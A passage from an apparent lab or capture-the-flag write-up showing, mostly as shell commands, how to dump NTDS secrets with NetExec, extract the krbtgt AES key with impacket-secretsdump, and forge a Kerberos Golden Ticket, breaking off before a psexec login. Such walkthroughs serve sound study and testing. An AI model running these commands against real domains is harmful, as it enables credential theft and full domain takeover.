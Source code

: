 ```shell
netexec smb $box -u $user -H $hash --ntds vss --user krbtgt
```

+Note+: `--ntds vss` this explicitly tells NetExec to use the VSS method (Volume Shadow Copy Service) instead of `DRSUAPI`. I did this as the standard `ntdsutil` was failing, meaning DRSUAPI was being `blocked`.
![](/ox-hugo/2025-06-11-192926_.png)


### Creating a Kerberos Golden Ticket: {#creating-a-kerberos-golden-ticket}

First let's Sync our clock to the host using `ntpdate`

```shell
#Using ntpdate
sudo ntpdate -s $domain

#Using faketime
faketime "$(ntpdate -q $domain | cut -d ' ' -f 1,2)"
```

First we use `impacket-lookupsid` to get the Domain SID:

```shell
impacket-lookupsid $domain/$user@$machine.$domain -domain-sids -hashes \:$hash
```

+Note+ I store this in the variable `$sid`
![](/ox-hugo/2025-06-11-191208_.png)

Now we will use `impacket-secretsdump` to retrieve the `aeskey` of the `krbtgt` account:

```shell
# Volume Shadow Service flag is appended as this was not working without it.
impacket-secretsdump $domain/$user@$box -hashes :$hash -use-vss
```

+Note+: I store `krbtgt:aes256` value in the variable `$krbtgt`
![](/ox-hugo/2025-06-11-194321_.png)

Now we use `impacket-ticketer` to create the Golden Ticket:

```shell
#Using -aeskey
impacket-ticketer -aesKey $krbtgt -domain-sid $sid -domain $domain Administrator
```

{{< figure src="/ox-hugo/2025-06-11-194556_.png" >}}

Export the ticket to the\* `KRB5CCNAME` Variable:

```shell
export KRB5CCNAME=./Administrator.ccache
```

Let's validate the ticket works by using the ticket for connecting via `psexec`
